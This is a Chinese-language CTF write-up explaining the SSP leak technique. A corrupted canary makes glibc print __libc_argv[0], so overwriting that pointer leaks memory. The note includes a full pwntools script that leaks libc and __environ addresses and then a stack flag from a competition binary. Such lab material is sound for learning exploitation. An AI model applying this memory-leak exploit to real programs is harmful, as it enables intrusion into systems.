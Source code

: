 ## SSP攻击

[CTF-pwn 技术总结（3）](https://sf2333.github.io/2022/02/01/CTF-pwn-%E6%8A%80%E6%9C%AF%E6%80%BB%E7%BB%93%EF%BC%883%EF%BC%89/)

[SSP leak - 先知社区](https://xz.aliyun.com/t/12672)

```python
p &__libc_argv[0] #用于查找到__libc_argv[0]的地址，在ssp攻击中很常用
```

华为杯研究生比赛中遇到的一道题，关于ssp攻击

ssp攻击主要是利用了这个原理：在包含canary的二进制文件，如果检测到了canary被修改，那么会直接输出此二进制文件名

![Untitled](Untitled%204.png)

二进制文件名存贮在`__libc_argv[0]`中，所以只要我们覆盖了这个地址，就可以直接进行任意地址泄露

同时，在libc中有一个变量，叫做`__environ`，这个变量储存着此时栈的地址，并且指向的地址是`__libc_argv[0]+0x10`

```python
from pwn import *
from LibcSearcher import *
#context.log_level = 'debug'

arg_0 = 0x7fffffffe328
what_to_do = 0x7fffffffe200
ebp = 0x7fffffffe1f0

sh = process("./pwn")
#sh = remote("172.10.0.4","10085")
elf = ELF("./pwn")
libc = ELF("./libc-2.23.so")
what_to_do - ebp-0x40
en_flag = ebp - 0xa4
offset = arg_0 -what_to_do

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

#sh = remote("172.10.0.4","10085")
payload =  cyclic(offset)+p64(puts_got)
# first
sh.recvuntil(b"What's your name?\n")
sh.sendline(b'aaaa')

sh.recvuntil(b"What do you want to do?\n")
sh.sendline(payload)

sh.recvuntil(b"detected ***:")
puts_addr = u64(sh.recvuntil(b" terminated\n",drop = True)[-6:].ljust(8,b"\x00"))

print(hex(puts_addr))

libc_base = puts_addr - libc.sym["puts"]

print(hex(libc_base))	
# second
sh.recvuntil(b"What's your name?\n")
sh.sendline(b'aaaa')

sh.recvuntil(b"What do you want to do?\n")

payload = cyclic(offset)+p64(libc_base + libc.sym['__environ'])
sh.sendline(payload)

sh.recvuntil(b"detected ***:")
environ_addr = u64(sh.recvuntil(b" terminated\n",drop = True)[-6:].ljust(8,b"\x00"))

print(hex(environ_addr))
	
# third
print("3")
sh.recvuntil(b"What's your name?\n")
sh.sendline(b'aaaa')
rand_id = int(sh.recvuntil(b"\n",drop = True)[-2:])

print(rand_id)

sh.recvuntil(b"What do you want to do?\n")
#gdb.attach(sh)
#pause()
payload = cyclic(offset)+p64(environ_addr-376)
print("addr:")
print(hex(environ_addr-376))
sh.sendline(payload)

sh.recvuntil(b"detected ***:")
flag = sh.recvuntil(b" terminated\n",drop = True)
print(flag)

new_flag = b''

for i in flag:
	new_flag+=bytes([i ^ rand_id])
	
print(new_flag)
sh.interactive()
```

![Untitled](Untitled%205.png)
